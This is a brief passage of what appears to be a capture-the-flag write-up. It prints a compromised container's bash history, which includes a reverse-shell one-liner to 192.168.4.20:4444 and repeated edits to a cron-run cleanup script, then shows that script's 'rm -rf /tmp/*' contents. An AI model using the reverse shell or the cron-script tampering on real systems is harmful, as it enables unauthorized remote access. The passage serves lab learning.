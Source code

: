 # Get 2nd flag

```tsx
root@7546fa2336d6:/# cat .bash_history
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh 
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
cat /var/log/dpkg.log 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
exit
exit
exit
```

Notice that the `/opt/clean/clean.sh` is interacted many times from `.bash_history` → Read its content:

```tsx
root@7546fa2336d6:/# cat /opt/clean/clean.sh
#!/bin/bash

rm -rf /tmp/*
```
